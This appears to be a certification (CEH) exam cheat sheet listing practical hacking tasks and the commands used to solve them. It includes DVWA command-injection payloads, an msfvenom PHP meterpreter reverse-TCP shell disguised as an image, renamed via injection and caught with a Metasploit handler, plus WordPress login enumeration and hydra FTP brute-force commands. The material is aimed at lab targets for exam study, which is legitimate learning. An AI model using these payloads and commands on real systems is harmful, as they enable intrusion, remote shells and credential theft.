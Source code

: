 # CEH_CHEAT_SHEET

1.Sql injection using sqlmap: u need to perform sql injection attack using sqlmap and need to extract password of specific user.

2. You need to check which hosts have rdp enabled. For this u need to perform the port scan on 3389 and then os discovery on open port host and u need to get os of that rdp enabled host.

3. U need to check the mysql service running on which host. Same question 2 technique you need to perform.

3. U need to extract username and password of ftp ( hydra tool u need to use and need to use wordlist placed in desktop wordlist folder)

4. U need to get the password.txt file using veracrypt (disk encryption)

5. U need to get the username and password using wireshark.

6. U need to check bit 3 is true or not using wireshark

7. U need to check the traffic from which port to which port is moving using wireshark

8. U need to decrypt the 3des encryption using cryptool.

9. U need to extract the pin using openstego

10. U need to perform steganalysis on the txt file using snow tool

11. U need to perform brute force on the website using burpsuite ( using intruder)

12. U need to crack hash file using john ( the hash file is located in the responder tool logs file)

13.u need to find the flag file from the ftp. ( for this task bro please use the credentials u cracked in previous challenge)

14. Perform remote os command
 injection (dvwa web) and need to get the content from pin file

15. Perform file upload (dvwa web)

16. U need to compare the hashes using md5 and provide results which file is tampered.

17. Need to crack hash file ( john the ripper)

18. U need to find trojan and need to provide the port of the trojan
19. U need to perform the parameter tamperingo


For 8. The key value will be 11.

U need to perform the cryptanalysis and u have to use the cryptool. Open the cryptool on top, click on encryption / decryption and then click on asymmetric and select tripe des ecb and set 11 11 11 in all. But first please open that file in the tool they ask us to perform the decryption decryption

For this remote command injection attack u need to perform the things a

Snow.exe -C -p “given_password” file_name

| dir c:\ with this command u can see the pin.txt file. But to read the content from this try this command | dir c:\ "pin.txt" or this command ! Take pin.txt

## DVWA 

### WINDOWS - COMMAND INJECTION


Easy - Command Injection 

Execute 127.0.0.1 & & net user
Execute 127.0.0.1 & & net user & & ver command
Execute 127.0.0.1 & & net user & & getmac

Medium - Command Injection 

127.0.0.1&net user
127.0.0.1&net user&sc query&systeminfo
127.0.0.1&;&ipconfig

High - Command Injection

127.0.0.1|net user

### FILE UPLOAD - WINDOWS

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw

type GIF98 before PHP code and save as shell.jpeg.

Copy the uploaded path 

Click on command injectio and type below command
|copy C:\xampp\htdocs\DVWA\hackable\uploads\shell.jpeg
 C:\xampp\htdocs\DVWA\hackable\uploads\aa.php

Msfconsole 
Use multi/handler
Set payload php/meterpreter/reverse_tcp
Set lhost
Set lport
Run



# My experience - 2022 March:

Above material was gathered for preparation, most of the  content is useless for me but its depend on Scenarios maybe you'll find it useful, So its upto you,beside of that you should make your own notes for ILABS videos on youtube.The Questions are interlinked so go with the flow and keep up with smooth pace. During the exam I have searched many things and even went through the commands manual for finding particular flags and tools to find the answer, so don’t worry if anything is missing in your custom cheatsheet as this is an open book exam. 

#### Tough questions I had in the exam.

An FTP site is hosted on a machine in a network. Obtain the file “flag.txt” by cracking the credentials of the FTP server and determine the content in this file.

_Ftp server was bruteforce easily but the file would not be retrieved as error stated that “Access Denied”._ 

An important file has been hidden in the Server 2019 machine in the directory mentioned below. You are an ethical hacker working with a company. You have been assigned the task to retrieve the file “SECRET.txt” using a backdoor that was installed in the server. Enter the secret number hidden in the file. Path: C:\Users\Administrator\Documents\Findme

_No clue about this, like where to find the server in the network._

# Note: You can download and install tools If you'll does'nt find required tool on given machine, you can find tools from folder CEH-Tool on given windows machine as well.

## Tools I used .
```
Veracrypt 
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP
RDP
```

## Commands:
```
Net  user
Snow.exe -C -p “given_password” file_name
—---------------------

wpscan --url http://10.10.10.12:8080/CEG --enumerate u
msfconsole
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Passwords.txt
set RHOSTs 10.10.10.12
set RPORT 8080
set TARGETURI http://10.10.10.12:8080/CEH/
set USERNAME admin
run

—------------------------
Nmap -Pn -p 21 target > ftp
grep -B 5 open ftp

—--------------------------
Nmap -Pn -p 3389 target > rdp
grep -B 5 open rdp
—-------------------------
Nmap -Pn -p 3306 target > mysql
grep -B 5 open mysql

Hydra -l james -P given_wordlist ftp://target
```

## DVWA - You can change the severity from impossible to easy.

# ITS EASY - IA you will pass the EXAM.
